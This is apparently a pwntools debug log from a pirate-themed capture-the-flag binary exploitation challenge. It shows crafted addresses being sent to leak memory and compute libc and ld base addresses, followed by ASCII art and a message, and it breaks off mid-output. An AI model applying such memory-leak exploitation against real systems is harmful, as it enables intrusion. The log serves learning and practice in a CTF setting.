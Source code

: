```bash
    b'Where to, captain?\n'
[DEBUG] Sent 0x8 bytes:
    b'4210720\n'
[DEBUG] Received 0x48 bytes:
    b'Good choice! We gathered 139894762634832 gold coins.\n'
    b'Where to, captain?\n'
libc_base = 139894762106880 => in hex: 0x7f3bc999f000
[DEBUG] Sent 0x8 bytes:
    b'4210704\n'
[DEBUG] Received 0x48 bytes:
    b'Good choice! We gathered 139894764481840 gold coins.\n'
    b'Where to, captain?\n'
ld_base = 139894764392448 => in hex: 0x7f3bc9bcd000
[DEBUG] Sent 0x10 bytes:
    b'139894764313824\n'
[DEBUG] Received 0x43 bytes:
    b'Good choice! We gathered 1049297824 gold coins.\n'
    b'Where to, captain?\n'
[DEBUG] Sent 0x10 bytes:
    b'139894764636304\n'
[DEBUG] Received 0x48 bytes:
    b'Good choice! We gathered 140732855472128 gold coins.\n'
    b'Where to, captain?\n'
[DEBUG] Sent 0x10 bytes:
    b'139894764343808\n'
[DEBUG] Received 0x48 bytes:
    b'Good choice! We gathered 140732855067432 gold coins.\n'
    b'Where to, captain?\n'
0x7ffeebd5a328
0x7ffeebd3b000
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x31 bytes:
    b'Back home? Hopefully the king will be pleased...\n'
[DEBUG] Received 0x2d0 bytes:
    b'\n'
    b'                     .\n'
    b'                    / \\\n'
    b'                   _\\ /_\n'
    b"         .     .  (,'v`.)  .     .\n"
    b"         \\)   ( )  ,' `.  ( )   (/\n"
    b"          \\`. / `-'     `-' \\ ,'/\n"
    b"           : '    _______    ' :\n"
    b"           |  _,-'  ,-.  `-._  |\n"
    b"           |,' ( )__`-'__( ) `.|\n"
    b"           (|,-,'-._   _.-`.-.|)\n"
    b'           /  /<( o)> <( o)>\\  \\\n'
    b'           :  :     | |     :  :\n'
    b'           |  |     ; :     |  |\n'
    b'           |  |    (.-.)    |  |\n'
    b"           |  |  ,' ___ `.  |  |\n"
    b"           ;  |)/ ,'---'. \\(|  :\n"
    b'       _,-/   |/\\(       )/\\|   \\-._\n'
    b" _..--'.-(    |   `-'''-'   |    )-.`--.._\n"
    b"          `.  ;`._________,':  ,'\n"
    b"         ,' `/               \\'`.\n"
    b"              `------.------'          \n"
    b"                     '\n"
    b'\n'
    b'\n'
[DEBUG] Received 0x54 bytes:
    b'While I am impressed with these riches.. you still must prove you sailed the world.\n'
[DEBUG] Received 0x20 bytes:
```